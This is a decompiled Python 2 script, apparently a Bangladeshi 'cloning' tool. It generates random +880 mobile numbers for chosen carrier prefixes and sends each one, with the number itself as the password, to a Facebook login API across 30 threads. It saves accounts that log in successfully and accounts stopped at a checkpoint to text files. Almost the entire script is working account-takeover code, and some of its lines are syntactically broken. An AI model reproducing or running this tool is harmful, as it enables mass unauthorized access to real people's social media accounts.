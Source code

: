 import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')

def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


os.system('clear')
psb('\x1b[1;32mBANGLADESH RIFAT 11 DIGIT CLONING START PLEASE WAIT ..........')
for n in range(9999):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 C')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
os.system('clear')
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [
 ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')


logo = '\n|.
 ██▀███   ██▓  █████▒▄▄▄     ▄▄▄█████▓
▓██ ▒ ██▒▓██▒▓██   ▒▒████▄   ▓  ██▒ ▓▒
▓██ ░▄█ ▒▒██▒▒████ ░▒██  ▀█▄ ▒ ▓██░ ▒░
▒██▀▀█▄  ░██░░▓█▒  ░░██▄▄▄▄██░ ▓██▓ ░ 
░██▓ ▒██▒░██░░▒█░    ▓█   ▓██▒ ▒██▒ ░ 
░ ▒▓ ░▒▓░░▓   ▒ ░    ▒▒   ▓▒█░ ▒ ░░   
  ░▒ ░ ▒░ ▒ ░ ░       ▒   ▒▒ ░   ░    
  ░░   ░  ▒ ░ ░ ░     ░   ▒    ░      
   ░      ░               ░  ░        
                                      
\n|...'

back = 0
successful = []
cpb = []
oks = []
id = []

def menu():
    os.system('clear')
    print logo
    print ''
    print 'AUTHOR   : ABDUL NUR RIFAT
    print 'FACEBOOK : TERMUX TEACHER R15AT'
    print 'GITHUB     : github.com/RIFAT40200 '
    print ''
    print 50* '-'
    print '[1]  \x1b[1;96mGP'
    print '[2]  \x1b[1;92mRobi'
    print '[3]  \x1b[1;96mAirtel'
    print '[4]  \x1b[1;92mBanglalink'
    print '[5]  \x1b[1;93mTeletalk'
    print '[0]  \x1b[1;95mExit            '
    print 50 * '-'
    action()


def action():
    global cpb
    global oks
    bch = raw_input('\n  ===>   ')
    if bch == '':
        print
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '2':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '180,181, 182, 183, 184, 185, 186, 187, 188, 189'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '3':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '160,161, 162, 163, 164, 165, 166, 167, 168, 169'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '4':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '190,191, 192, 193, 194, 195, 196, 197, 198, 199,140,141, 142, 143, 144, 145, 146, 147, 148, 149'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '5':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '150,151, 152, 153, 154, 155, 156, 157, 158, 159'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '0':
        exb()
    else:
        print
        action()
    xxx = str(len(id))
    print ''
    print 50 * '-'
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.5)
    psb('[\xe2\x9c\x93] Please wait, process is running ...')
    time.sleep(0.5)
    psb('[!] To Stop Process Press CTRL Then Press z')
    time.sleep(0.5)
    psb(50 * '-')
    time.sleep(0.5)
    print
    50 * '-'
    print

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            result = k + c + user
            digi11 = result[3:14]
            pass1 = digi11
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[RIFAT-OK]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '|' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;93m[RIFAT-CP]\x1b[1;97m ' + k + c + user + ' | ' + pass1 + '\x1b[1;93m[Open After 03 Days]\x1b[0m \n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '|' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print
    50 * '-'
    print
    print
    '[\xe2\x9c\x93] Total OK/CP : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93] CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 Bangla.py')


if __name__ == '__main__':
    menu()
# okay decompiling UF11.pyc
